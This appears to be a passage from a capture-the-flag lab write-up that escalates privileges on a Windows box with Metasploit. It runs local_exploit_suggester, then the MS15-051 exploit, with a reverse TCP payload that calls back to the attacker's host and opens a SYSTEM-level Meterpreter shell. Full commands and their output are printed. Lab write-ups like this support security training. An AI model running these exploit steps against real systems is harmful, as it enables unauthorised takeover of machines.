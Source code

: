 Now we are going to try to find some vulnerabilities for local privesc.

```none
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf6 post(multi/recon/local_exploit_suggester) > exploit

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
```

This found a bunch of exploits...

```none
[*] 10.10.10.5 - 37 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```

Just picked a random exploit.

```none
use exploit/windows/local/ms15_051_client_copy_image
```

And set the options.

```none
msf6 exploit(windows/local/ms15_051_client_copy_image) > set LHOST 10.10.14.10
LHOST => 10.10.14.10
msf6 exploit(windows/local/ms15_051_client_copy_image) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/ms15_051_client_copy_image) > exploit

[*] Started reverse TCP handler on 10.10.14.10:4444 
[*] Launching notepad to host the exploit...
[+] Process 2792 launched.
[*] Reflectively injecting the exploit DLL into 2792...
[*] Injecting exploit into 2792...
[*] Exploit injected. Injecting payload into 2792...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175174 bytes) to 10.10.10.5
[*] Meterpreter session 3 opened (10.10.14.10:4444 -> 10.10.10.5:49176) at 2021-07-25 13:54:10 +1200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
